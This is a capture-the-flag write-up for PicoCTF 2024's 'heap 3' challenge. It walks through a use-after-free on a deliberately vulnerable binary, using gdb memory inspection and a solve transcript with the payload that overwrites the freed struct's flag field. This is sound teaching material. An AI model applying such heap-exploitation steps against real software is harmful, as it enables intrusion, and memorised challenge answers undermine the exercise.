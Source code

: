 ## PicoCTF 2024 Binary Exploitation heap 3 200 Points

When you open this challenge, you get two files -- the binary and a copy of the source code -- called [chall](chall) and [chall.c](chall.c), with this description:

> #### Description
> This program mishandles memory. Can you exploit it to get the flag?
> Additional details will be available after launching your challenge instance.

If you want to see the hints:

<details close>
<summary> <b>Hints</b> </summary>

> (1) Check out "[use after free](https://encyclopedia.kaspersky.com/glossary/use-after-free/)"
</details>


At this point I'm going to assume that you have at least read on of [heap0](../binex-heap0/README.md) [heap1](../binex-heap1/README.md) or [heap2](../binex-heap2/README.md) (sorry)


Lets look at the new functions of interest:

`alloc_object()` \
Alright, this function will allocate a specified amount of space for the user, and then will fill that space with... well actually the scan for input doesn't stop you from overflowing your own buffer. So that is a good thing to know. \
Overall this function seems simple, and it is, but it allows us to put any data anywhere we want in heap memory, as long as it fits - which we will get back to later.

`free_memory()` \
Very simple, it free's `x`............................... well hold on a second here. There are some VERY important concepts to take away form this, and is very important for concepts such as heap poisoning, double free's, and (what we care about) use after frees \
Let's think about some of the consequences of freeing x. \
Well, what is x? It is an object of size 35 sure. It has three segments of 10 and one of 5, also yes. But it is also a global variable that is refrenced in many different functions. So, I ask you even though I know you will just read the answer, what is going to happen when we free x? \
I'll tell you what! We are going to be accessing this freed memory even though we shouldn't be, soooo if something gets allocated where x should be, what will we be reading when we check `x-->flag`? \
Oh yeah baby, we got our exploit


`check_win()` \
An inportant function, with one difference: `if(!strcmp(x-->flag, "pico))` \
We need to set the flag part of `x` to pico, and with what we know about use after free's, we got this.

Well actually hold up there. A concept that is weird, seemingly inconsistent, and just annoying, is how the allocator decides where to put what memory. Currently, we have `num_allocs`, `object *x`, and `choice`. What is going to matter? Honestly, there isn't a lot I can tell you for sure because it just isn't always consistent with what I would tell you. My best advise for finding where something is going to be allocated is two part: \
- If Struct A was size 64, and after we free A, we allocate B of size 64, it will most likly take the place of A
- If values will align nicely (64, 32, 16, 8), they may be placed inside of each other (if they are free of course)

If you actually want to know hw the C allocator works, I highly recommend looking up papers on google scholar or trying to find an actual explaination of the C allocation in specific. It is a topic you will be able to find info about.

But for our purposes, we just need to know the size of the allocation of x, and match that. As that will land in the same place 100% of the time _90% of the time_.

I recommend actually playing around with different sizes and seeing where they end up. Just input random amounts of A's and look for 0x41 in your memory with gdb. These are the commands and inputs I put to do this:
```
$ gdb chall
(gdb) r
Starting program: /heap/3/chall 

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 16
Data for flag: AAAABBBB

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: ^C
Program received signal SIGINT, Interrupt.
(gdb) x/15x x
0x20b66b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x20b66c0:      0x00000000      0x00000000      0x00000000      0x69620000
0x20b66d0:      0x00006f63      0x00000000      0x00000411      0x00000000
0x20b66e0:      0x41414141      0x42424242      0x0000000a
```

Now that you have played around with memory on the heap, lets get the flag. This is going to be just the ordering of what we have talked about:\
1. Free `x`
    - Know why you are doing this! What is the goal of freeing it, what steps do we take after?
2. Allocate something the same size as `x`
    - Why the same size? Why not less, we can overflow the buffer after all? Knowing this will help in the future
3. Write into that something
    - To find what to write, follow the same process as you did you heap2: play around with inputs, count how big the offset is from the beginning of x is to the end, use gdb to examine memory. You have the tools!
4. Profit
    - Get those flags!

Here is what my run of getting the flag looked like

#### OH YEAH!
I almost forgot, sometimes running the solve on the chall binary on webshell or locally won't actually tell you you won, if you are seeing signs that you won, but aren't try it on the nc they give you! 

```
freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: * b'A'*30 + b"pico\n" * 
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_--------}
```
